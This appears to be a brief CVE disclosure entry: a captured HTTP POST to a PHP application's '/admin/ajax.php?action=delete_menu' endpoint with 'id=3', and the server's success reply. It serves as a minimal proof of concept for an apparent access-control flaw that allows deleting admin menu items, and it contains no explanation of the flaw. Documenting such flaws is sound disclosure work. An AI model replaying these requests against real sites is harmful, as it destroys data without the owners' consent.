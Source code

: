 # CVEs
CVE Repository
# Lucca Magalhães and Paul Lannes

POST /admin/ajax.php?action=delete_menu HTTP/1.1
Host: 146.190.137.51
Content-Length: 4
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://146.190.137.51
Referer: http://146.190.137.51/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=5jad5scvllisg7uliftluuudev
Connection: close

id=3

HTTP/1.1 200 OK
Date: Fri, 17 Feb 2023 19:19:45 GMT
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1
Connection: close
Content-Type: text/html; charset=UTF-8

1
